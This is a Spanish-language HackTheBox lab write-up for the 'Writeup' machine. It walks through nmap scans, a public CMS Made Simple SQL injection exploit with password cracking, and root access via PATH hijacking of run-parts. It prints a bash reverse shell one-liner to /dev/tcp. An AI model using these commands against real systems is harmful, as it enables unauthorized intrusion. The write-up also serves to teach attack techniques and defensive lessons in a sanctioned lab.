 ```yaml
---
title: HackTheBox Writeup
date: 2021-07-25 12:00:00 -0400
image: 
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/banner.png
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [sqli, path hijacking, web, cms]
---
```


***

**Machine IP** : 10.10.10.138

**DATE**  : 25/07/2021

***

## Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/matrix.png)

## Reconocimiento


Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

Usamos el siguiente comando para escanear todos los puertos de una manera rapida.

```bash
nmap -p- --open -T5 -v -n -Pn 10.10.10.138
```

Posteriormente utilizamos este comando con los puertos del anterior escaneo para saber las versiones de cada servicio.

```bash
nmap -sC -sV -n -p22,80 -Pn 10.10.10.138
```

Nos arroja este resultado:

```bash
~  nmap -sC -sV -p22,80 10.10.11.138 -Pn                                                                                                                                                        4s   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 11:07 EDT
Nmap scan report for 10.10.11.138
Host is up.

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.70 seconds

```

Podemos observar dos puertos abiertos, el `22` que pertenece a `ssh` y el `80` que es un `http`, procederemos a revisar la web que corre en el servicio http y haremos una busqueda de directorio con `gobuster`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/web.png)

Al parecer el servidor web está protegido a Dos, por eso gobuster no puede hacer su trabajo, revisando `robots.txt` una ruta muy comun en los ctf, podemos ver que tiene el directorio writeup oculto.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/robots.png)

Al revisar ese directorio solo son writeups de otras maquinas, pero al escanear la página con Wappalizer podemos observar que está hecho con `CMS Made Simple`, lo cual parece curioso.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/wappa.png)

Al investigar exploits en esta tecnología nos encontramos con un [SQL Injection Exploit](https://www.exploit-db.com/exploits/46635)

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/exploitdb.png)

Este exploit es un `sql injection basado en tiempo`, lo que hace es dumpear las credenciales del portal y nos la entrega junto con la contraseña que esta hasheada, pero tiene una opcion para hacer bruteforce a la contraseña.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/sql.png)

Luego de descargarnolos, ejecutamos el `exploit` con el comando

```bash
python2 exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt 
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/creden.png)

Con estas credenciales nos logeamos via `ssh` con el usuario `jkr` y obtenemos el `user.txt`.


## Escalamiento de privilegios

Luego de obtener acceso como el usuario `jkr`, probé con `sudo -l` para listar los `binarios` que se pueden ejecutar como sudo, pero no tenia privilegios, luego vi los grupos en los que estaba el usuario jkr y habia uno llamado `staff`, investigando un poco encontré que este grupo puede crear archivos dentro de `usr/local/bin`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/id.png)

Luego listé los procesos que se ejectuban en la maquina con la herramienta [pspy](https://github.com/DominicBreuker/pspy), luego de esto como no encontré nada, pedí ayuda a unos colegas y me dijeron que revise los procesos llamados cuando se iniciaba sesion son `ssh`, en otra terminal me logeé y al momento de logearme via ssh ocurría esto en la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/pspy.png)

Como podemos observar se ejecuta el comando `run-parts` sin ruta absoluta, entonces podemos aprovechar para colar un archivo llamado run parts en los directorios del `path` y autoejecutarse al momento de que lo encuentre, esta vulnerabilidad se llama `Path Hijacking`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/path.png)

Hay varias formas de obtener `root` con esta vulnerabilidad, podemos crear una `reverse shell` en el archivo `run-parts` o simplemente asignar permisos SUID a la bash , en este caso crearemos una reverse shell con el comando.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/payload.png)

Luego le damos persmisos de ejecución con el comando

```bash
chmod +x run-parts
```
Por ultimos en otra terminal nos logeamos via ssh con el usuario `jkr` y obtenemos la `reverse shell` hacia nuestra maquina como el usuario `root`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/roottxt.png)

Finalmente nos metemos al directorio de `root` y observamos el `root.txt`.


## Conclusiones

Fue una buena maquina y nos deja unas cuantas lecciones...

No usar versiones antiguas de las tecnologías web y menos sabiendo que tienen vulnerabilidades criticas.

No manejar contraseñas faciles de descrifrar, se sugiere una constraseña con simbolos y mayusculas.

No asignar grupos con permisos de escritura como el de `staff` a un usuario no privilegiado.

Sanitizar el input del usuario para evitar `sql injections` basados en tiempo.

Gracias por leer, Happy hacking and always try harder!